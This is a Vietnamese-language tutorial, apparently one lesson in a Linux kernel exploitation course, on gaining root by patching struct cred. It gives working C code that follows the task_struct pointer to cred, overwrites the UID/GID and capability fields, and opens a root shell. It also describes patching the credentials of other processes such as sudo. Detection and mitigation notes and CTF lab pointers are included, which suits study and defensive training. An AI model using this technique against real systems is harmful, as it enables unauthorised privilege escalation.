

> **Prerequisites**: [[09-exploit-primitives|09. Exploit Primitives]] · [[12-rop-chains-kernel|12. ROP Chains]]
> **Objectives**:
> - Hiểu cấu trúc `struct cred` và cách kernel dùng nó để kiểm tra quyền
> - Patch `cred` trực tiếp bằng AAW primitive để leo quyền root
> - Tìm địa chỉ `cred` struct của process hiện tại qua `task_struct`
> - So sánh với phương pháp `commit_creds(prepare_kernel_cred(0))`
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có AAW (Arbitrary Address Write) primitive
> - Có AAR (Arbitrary Address Read) để navigate `task_struct` chain đến `cred`
> - Đã bypass KASLR để biết địa chỉ kernel structures
>
---

## Cơ chế tấn công

### struct cred — Kernel Credential

Mỗi process trong Linux có một `struct cred` lưu trữ toàn bộ thông tin quyền hạn:

```c
struct cred {
    atomic_t    usage;
    kuid_t      uid;         // offset 0x04 — real UID
    kgid_t      gid;         // offset 0x08 — real GID
    kuid_t      suid;        // offset 0x0c — saved UID
    kgid_t      sgid;        // offset 0x10 — saved GID
    kuid_t      euid;        // offset 0x14 — effective UID (kiểm tra khi syscall)
    kgid_t      egid;        // offset 0x18 — effective GID
    kuid_t      fsuid;       // offset 0x1c — filesystem UID
    kgid_t      fsgid;       // offset 0x20 — filesystem GID
    // ... capabilities, security, etc.
    kernel_cap_t cap_inheritable;  // offset 0x30
    kernel_cap_t cap_permitted;    // offset 0x38
    kernel_cap_t cap_effective;    // offset 0x40 — capabilities hiện tại
    kernel_cap_t cap_bset;         // offset 0x48
    kernel_cap_t cap_ambient;      // offset 0x50
    // ...
};
```

**Mục tiêu của cred patching**: Overwrite `uid`, `gid`, `euid`, `egid`, `fsuid`, `fsgid` thành 0 (root), và set toàn bộ capabilities thành `0xffffffffffffffff`.

### Navigate từ task_struct đến cred

```c
current_task (per-CPU variable)
    └── struct task_struct
            ├── pid
            ├── comm (process name)
            ├── mm
            └── cred*  ← offset thay đổi theo kernel version
                    └── struct cred
                            ├── uid   ← ghi 0
                            ├── gid   ← ghi 0
                            ├── euid  ← ghi 0
                            └── ...
```

**Tìm offset của `cred` trong `task_struct`:**

```bash
# Dùng pahole trên vmlinux:
pahole -C task_struct vmlinux | grep "cred"
# const struct cred * cred;   /* offset: 0x568  size: 8 */
```

### So sánh hai phương pháp escalation

| Phương pháp | Cần gì | Ưu điểm | Nhược điểm |
|------------|--------|---------|-----------|
| `commit_creds(prepare_kernel_cred(0))` | RIP control + ROP | Sạch, đúng API kernel | Cần gadgets, KPTI bypass |
| **cred patching** (lesson này) | AAW + AAR | Không cần ROP phức tạp | Cần navigate pointers đến cred |
| `modprobe_path` overwrite | AAW đơn giản | Chỉ cần 1 write | Cần trigger thêm step |

---

## Quy trình tấn công

**Môi trường**: Kernel module với AAR/AAW primitive đã được build từ lesson 09.

**Bước 1 — Tìm địa chỉ current task_struct**

```c
// Cách 1: Dùng per-CPU variable current_task
// Trong GDB kernel: p current_task
// Ngoài GDB: cần leak địa chỉ qua một cơ chế khác

// Cách 2: Dùng AAR để đọc current_task từ gs_base (x86-64)
// gs_base trỏ vào per-CPU area, offset của current_task cố định
// Đây là approach phức tạp hơn

// Cách 3 (đơn giản trong CTF): Scan heap cho task_struct của current PID
// task_struct.pid ở offset cố định — tìm bằng scan
unsigned long task_addr = find_task_by_pid(getpid());
```

**Bước 2 — Đọc cred pointer từ task_struct**

```c
// Lấy offset của 'cred' từ pahole:
#define TASK_CRED_OFFSET  0x568   // thay đổi theo kernel version!

// AAR để đọc cred pointer
unsigned long cred_ptr = AAR64(task_addr + TASK_CRED_OFFSET);
printf("[+] cred @ 0x%lx\n", cred_ptr);

// Validate: cred ptr phải trong kernel heap range
assert((cred_ptr >> 48) == 0xffff);
```

> **Expected output**: `[+] cred @ 0xffff888...` — địa chỉ trong kernel heap.
>
**Bước 3 — Patch tất cả UID/GID fields về 0**

```c
// struct cred layout (offsets cần verify với pahole)
#define CRED_UID_OFFSET   0x04
#define CRED_GID_OFFSET   0x08
#define CRED_SUID_OFFSET  0x0c
#define CRED_SGID_OFFSET  0x10
#define CRED_EUID_OFFSET  0x14
#define CRED_EGID_OFFSET  0x18
#define CRED_FSUID_OFFSET 0x1c
#define CRED_FSGID_OFFSET 0x20

// Patch tất cả về 0 (root)
AAW32(cred_ptr + CRED_UID_OFFSET,   0);
AAW32(cred_ptr + CRED_GID_OFFSET,   0);
AAW32(cred_ptr + CRED_SUID_OFFSET,  0);
AAW32(cred_ptr + CRED_SGID_OFFSET,  0);
AAW32(cred_ptr + CRED_EUID_OFFSET,  0);
AAW32(cred_ptr + CRED_EGID_OFFSET,  0);
AAW32(cred_ptr + CRED_FSUID_OFFSET, 0);
AAW32(cred_ptr + CRED_FSGID_OFFSET, 0);
printf("[+] UIDs patched to 0\n");
```

**Bước 4 — Patch capabilities về full (optional nhưng recommended)**

```c
#define CRED_CAP_INHERITABLE  0x30
#define CRED_CAP_PERMITTED    0x38
#define CRED_CAP_EFFECTIVE    0x40
#define CRED_CAP_BSET         0x48
#define CRED_CAP_AMBIENT      0x50

// Set all caps to 0xffffffffffffffff
for (int off = CRED_CAP_INHERITABLE; off <= CRED_CAP_AMBIENT; off += 8) {
    AAW64(cred_ptr + off, 0xffffffffffffffff);
}
printf("[+] Capabilities patched to full\n");
```

**Bước 5 — Verify và spawn root shell**

```c
// Kiểm tra bằng geteuid()
if (geteuid() == 0) {
    printf("[+] Root achieved! UID = %d\n", getuid());
    execve("/bin/sh", (char*[]){"/bin/sh", NULL}, NULL);
} else {
    printf("[-] Patch failed, euid = %d\n", geteuid());
}
```

> **Expected output**: `[+] Root achieved! UID = 0` → root shell.
>
---

## Biến thể & Bypass

### Tìm task_struct bằng scan với known process name

```c
// task_struct.comm là process name, offset cố định (~0x570 từ start)
// Nếu biết process name → scan heap tìm string match
// Tiếp tục backward để tìm start của task_struct
// Cách này không cần leak địa chỉ ban đầu nhưng chậm hơn
```

### Patch cred của process khác (target injection)

```c
// Thay vì patch process hiện tại:
// 1. Tìm PID của target process (ví dụ: sudo, sshd)
// 2. Navigate task_struct chain để tìm task của target PID
// 3. Patch cred của target → privilege escalation trong context của target
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm offsets với pahole**

```bash
pahole -C task_struct vmlinux | grep -E "cred|pid|comm"
pahole -C cred vmlinux | grep -E "uid|gid|cap"
# Ghi lại các offsets để dùng trong exploit
```

**AAR64 / AAW32 / AAW64 helpers**

```c
// Giả sử đã có AAR/AAW từ Lesson 09:
unsigned long cred = AAR64(task + TASK_CRED_OFFSET);
AAW32(cred + 0x04, 0);   // uid
AAW32(cred + 0x14, 0);   // euid
// ... (repeat cho tất cả 8 fields)
AAW64(cred + 0x40, 0xffffffffffffffff);  // cap_effective
```

**Verify trong GDB**

```bash
# Sau khi patch, trong GDB:
# (gdb) p ((struct cred*)0x<cred_addr>)->uid
# $1 = {val = 0}  ← đúng!
# (gdb) p ((struct cred*)0x<cred_addr>)->euid
# $2 = {val = 0}  ← đúng!
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — Tìm cred offsets**
Mục tiêu: Từ vmlinux, lấy offset `cred` trong `task_struct` và offset `euid` trong `cred`.

```bash
pahole -C task_struct vmlinux | grep "cred"
pahole -C cred vmlinux | grep "euid"
```

Luyện cho đến khi: biết ngay phải dùng `pahole` và command format.

**Drill 2 — Navigate pointer chain**
Mục tiêu: Từ `task_struct` address, lấy `cred` trong 2 bước (1 AAR).

Luyện cho đến khi: task → cred pointer chain gõ ra không cần notes.

**Drill 3 — Full cred patch**
Mục tiêu: Patch tất cả 8 UID/GID fields + 5 capability fields trong 5 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Audit log**: Sudden UID change từ non-zero sang 0 mà không có `su`/`sudo` syscall
> - Linux audit framework: `auditctl -a always,exit -F arch=b64 -S setuid`
> - PAM logging: bất thường nếu root shell không có login event
>
> **Memory forensics**: cred struct có `usage` counter bất thường hoặc bị corrupt
>
> [!note] Mitigation
> - `CONFIG_SECURITY_LOCKDOWN_LSM=y` — hạn chế một số kernel write paths
> - Read-only data sections cho cred: kernel hardening patches
> - Runtime Integrity Measurement với IMA/EVM
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| pawnyable.cafe | Holstein (any version) | Sau khi có AAW, thử cred patching thay vì ROP |
| CTF | Các kernel challenges với AAW primitive | Cred patching thay thế cho ROP khi gadgets khó tìm |
| Local | Custom module với AAW bug | Luyện navigate task_struct → cred |

---

## Field Manual Entry

> [!abstract] struct cred Patching — Quick Reference
> **Điều kiện**: AAR + AAW primitive; KASLR bypass
> **Navigate**: `task_addr` → `AAR64(task + CRED_OFFSET)` = `cred_ptr`
> **Patch**: `AAW32(cred + 0x04, 0)` × 8 fields (uid/gid/suid/sgid/euid/egid/fsuid/fsgid)
> **Caps**: `AAW64(cred + 0x40, 0xffffffffffffffff)` (cap_effective)
> **Offsets**: `pahole -C task_struct vmlinux | grep cred`; `pahole -C cred vmlinux`
> **Verify**: `geteuid() == 0` → `execve("/bin/sh")`
> **Ref**: [[13-struct-cred-patching|13. struct cred Patching]]
>